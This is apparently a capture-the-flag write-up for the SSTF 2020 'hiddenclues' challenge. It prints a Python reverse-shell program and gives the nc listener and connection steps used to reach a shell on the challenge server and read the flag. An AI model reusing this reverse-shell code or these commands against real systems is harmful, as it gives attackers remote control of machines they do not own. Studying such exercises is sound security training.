 ```
```
```python
#!/usr/bin/python

import socket, subprocess, os, sys
print "password:",
if raw_input().strip() != "hack'n'roll":
	exit()
MY_IP=raw_input("remote Server: ").strip()
MY_PORT=int(raw_input("remote Port: ").strip())
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((MY_IP, MY_PORT))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p=subprocess.call(["/bin/sh", "-i"])

```
Oh, It's the program running on **hiddenclues.sstf.site 24680**. Now I know the password and I can execute reverse-shell on the server.
>And, if needed, you can use a  _restricted_  public shell server on  
**nc shellserver.sstf.site 1337**

In the description on this prob, I can use a shell on that server. But the command is restricted. So, let's execute a reverse-shell on this server.
#### nc shellserver.sstf.site 1337
```
$nc -lvp 1010
Listening on [0,0,0,0] (family 0, port 1010)
```
**nc** command is allowed. Make new terminal and connect to **hiddenclues.sstf.site 24680**
#### nc hiddenclues.sstf.site 24680 (New terminal)
```
$ nc hiddenclues.sstf.site 24680
password: hack'n'roll
remote Server: shellserver.sstf.site
remote Port: 1010
```
#### nc shellserver.sstf.site 1337
```
$nc -lvp 1010
Listening on [0,0,0,0] (family 0, port 1010)
Connection from ~~~~~ received !
/bin/sh: 0: can't access tty; job control turned off
$
```
Now I can use a reverse shell. Let's cat flag
![shell.png](https://github.com/snwox/Writeup/blob/master/CTF/2020/SSTF/source/shell.png)

# Thanks for reading :)
